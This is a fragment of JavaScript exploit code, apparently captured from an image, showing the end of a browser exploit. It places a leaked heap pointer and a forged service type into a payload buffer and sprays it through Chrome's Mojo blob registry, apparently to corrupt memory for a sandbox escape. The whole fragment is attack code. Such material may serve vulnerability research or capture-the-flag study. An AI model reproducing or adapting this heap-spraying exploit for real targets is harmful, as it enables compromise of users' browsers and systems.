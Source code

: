 ```javascript
    const payload = new BigUint64Array(0x50 / 8);
    payload.fill(0x4141414141414141n);
    payload[0] = hleak;
    payload[1] = BigInt(blink.mojom.CATServiceType.kDirty);
    
    const embeddedData = new Uint8Array(payload.buffer);
    for(let k = 0; k < BLOCK; k++) {
     	dataElems.push({
        $tag: blink.mojom.DataElement.Tags.bytes,
        bytes: {
          length: 0x50,
          embeddedData: embeddedData,// "A".repeat(0x50).split("").map(a => a.charCodeAt(0)),
          data: blobData[idx + k].remote
        }
      }); 
    }
    blobRegistry.register(mojo.makeRequest(blobData[idx].blobPtr), "" + Math.random(), "text/data", "text/data", dataElems);
  }

  await wait(1000 * 100);

}catch(e) { log(e); }
})()

</script>
```
